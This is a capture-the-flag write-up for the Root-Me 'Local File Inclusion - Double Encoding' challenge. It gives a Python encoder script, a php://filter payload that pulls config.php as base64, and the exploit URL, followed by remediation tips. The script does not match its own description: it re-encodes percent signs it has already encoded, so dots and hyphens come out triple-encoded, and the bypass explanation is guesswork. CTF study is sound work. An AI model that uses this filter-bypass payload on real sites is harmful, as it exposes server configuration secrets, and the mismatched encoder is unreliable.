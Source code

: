 ## Root-Me.org Challenge Write-Up: Local File Inclusion - Double Encoding
``

**Challenge Description:** This challenge tasks us with exploiting a Local File Inclusion (LFI) vulnerability to read a sensitive file (likely `config.php`). However, the application employs filters to prevent straightforward attacks.  The key to success lies in understanding and applying a non-standard double-encoding technique. 

**Understanding the Vulnerability:**

The application uses a URL parameter (e.g., `page`) to dynamically include files. This parameter is vulnerable to LFI, allowing attackers to potentially access sensitive files outside the intended webroot. 

**The Challenge of Filters:**

The application's filters block common LFI payloads, including those using the `php://filter` wrapper.  Standard double URL encoding also fails because the filters likely detect patterns like `php`, `filter`, and `base64`.

**Unraveling the Custom Encoding:**

Through careful analysis and experimentation, we've discovered a unique encoding scheme that successfully bypasses the filters. This scheme involves:

1. **Initial URL Encoding:** First, the entire payload is URL encoded using the standard `urllib.parse.quote` function in Python. 

2. **Selective Double Encoding:** Then, specific characters are double URL encoded. The characters that require double encoding are:

   -  `.` (dot): Encoded as `%252E`
   -  `/` (forward slash):  Initially encoded using `urllib.parse.quote_plus` (which encodes spaces as `+` instead of `%20`), resulting in `%2F`, and then the "%" is encoded again.
   -  `-` (hyphen): Encoded as `%252D`
   -  `%` (percent sign):  Initially encoded using `urllib.parse.quote_plus`, resulting in `%25`, and then the "%" is encoded again.

**The Python Script:**

The following Python script performs the custom double encoding:

```python
import urllib.parse
import sys

def custom_encode(payload):
    """
    Applies custom double URL encoding, handling '.', '/', '-', and '%'.
    """

    encoded_payload = ""
    for char in payload:
        if char == '.':
            encoded_char = "%252E" 
        elif char == '-':
            encoded_char = '%252D'
        elif char in '%/':
            encoded_char = urllib.parse.quote_plus(char)    
        else:
            encoded_char = urllib.parse.quote(char)  
        encoded_payload += encoded_char

    # Double-encode all '%' symbols
    double_encoded_payload = ""
    for char in encoded_payload:
        if char == '%':
            double_encoded_payload += urllib.parse.quote(char) 
        else:
            double_encoded_payload += char

    return double_encoded_payload

def main():
    if len(sys.argv) != 2:
        print("Usage: python3 encoder.py <payload>")
        sys.exit(1)

    payload = sys.argv[1]
    encoded_payload = custom_encode(payload)
    print(f"Encoded payload: {encoded_payload}")

if __name__ == "__main__":
    main()
```

**Exploitation Steps:**

1. **Encode the Payload:** Use the Python script to encode the following payload:

   ```
   php://filter/convert.base64-encode/resource=config.php
   ```

2. **Construct the Exploit URL:** Inject the encoded payload into the vulnerable URL parameter:

   ```
   http://challenge01.root-me.org/web-serveur/ch45/index.php?page=[encoded_payload]
   ```

3. **Retrieve and Decode the Response:** The server's response will contain the Base64-encoded content of `config.php`. Decode it to retrieve the sensitive information.

**Why This Encoding Works:**

This unusual encoding scheme likely bypasses the filters because:

- **Pattern Obfuscation:** By selectively double-encoding specific characters, the script breaks up recognizable patterns like "php://" and "base64", which the filters might be looking for.
- **Multiple Decoding Passes:** The server might apply multiple URL decoding passes, allowing the payload to be successfully decoded despite the initial obfuscation.

**Remediation:**

- **Sanitize Input Carefully:** Implement robust input sanitization techniques that go beyond basic URL decoding. Consider using a whitelist approach to restrict allowed characters.
- **Avoid Dynamic File Inclusion:**  Use static includes whenever possible to minimize the risk of LFI.
- **Utilize a Web Application Firewall (WAF):**  A WAF can help detect and block malicious patterns in web requests, including those attempting to exploit LFI.

**Lessons Learned:**

- **Encoding Tricks:** Attackers often use creative encoding techniques to bypass security filters.
- **Defense in Depth:**  Multiple layers of security are crucial to protect against a wide range of attack vectors.
- **Constant Learning:**  The landscape of web security is constantly evolving. Stay updated on the latest threats and mitigation techniques.
